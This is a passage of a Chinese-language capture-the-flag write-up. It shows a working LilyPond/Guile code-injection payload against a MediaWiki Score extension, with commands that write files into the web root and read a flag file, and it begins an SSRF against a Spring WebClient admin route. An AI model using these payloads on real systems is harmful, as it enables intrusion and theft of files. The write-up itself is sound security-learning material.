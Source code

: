 提示出来后发现原来是 Score 扩展，
[bug report](https://phabricator.wmmirror.live/T257062) 里就给了很多例子，
引号估计故意用了全角的，需要手动改半角。模板也不创建了，直接用 score 标签。然后会提示
`音频转换需要安装并配置好的TimedMediaHandler扩展版本。`，删掉 `vorbis=1` 就行。

```plaintext
<score lang="lilypond">\new Staff <<{c^#
(number->string (system "/bin/false"))
}>></score>
```

然后就是一顿实验。还去翻了 [Guile](https://www.gnu.org/software/guile/) 的文档想
opendir，后来发现其实不需要。第一个回复有点误导，实际上 system 可以成功执行。
把输出重定向到 /var/www/html/ 就可以从 HTTP 服务读了。

```scheme
(object->string (getpwuid (getuid)))
; #("www-data" "x" 33 33 "www-data" "/var/www" "/usr/sbin/nologin")
(if (file-exists? "/var/www/html/index.php") "true" "false")
; true
(object->string (system "echo \"<!DOCTYPE html> <html> <body> <pre>\" > /var/www/html/out2.php"))
; 0
(if (file-exists? "/var/www/html/out2.php") "true" "false")
; true
(object->string (stat "/var/www/html/out2.php"))
; uid and gid are 33, size is 36 bytes
(object->string (system "find / -name \"*flag*\" -print >> /var/www/html/out2.php"))
; 0
; https://prob07-xxxxxxxx.geekgame.pku.edu.cn/out2.php
; /flag2
(object->string (system "cat /flag2 >> /var/www/html/out2.php"))
; 0
; flag{li1yp0nd_can_1ead_to_rce}
```

## 企业级理解

根据提示访问 `/admin/` 得到一个表单，在 action 末尾加个斜杠就可以提交，选择
PKU_GeekGame 就会返回 flag1。

把 `/admin/source_bak/` 下载下来，是 web.jar 的源代码。代码匹配了 `/admin/`
后面的变量，URL decode 之后用作 POST 的 URI。从
[文档](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/web/reactive/function/client/WebClient.Builder.html#baseUrl(java.lang.String))
可以知道当 URI 是绝对地址的时候 base URL 会被忽略，加上 PDF 的代码中关闭了若干防护，
可以把 URL 传过去。

```javascript
encodeURIComponent(encodeURIComponent("http://localhost:8080"))
// 'http%253A%252F%252Flocalhost%253A8080'
```

访问 `/admin/http%253A%252F%252Flocalhost%253A8080`

```plaintext
Endpoints:
/bonus
/source_bak
```
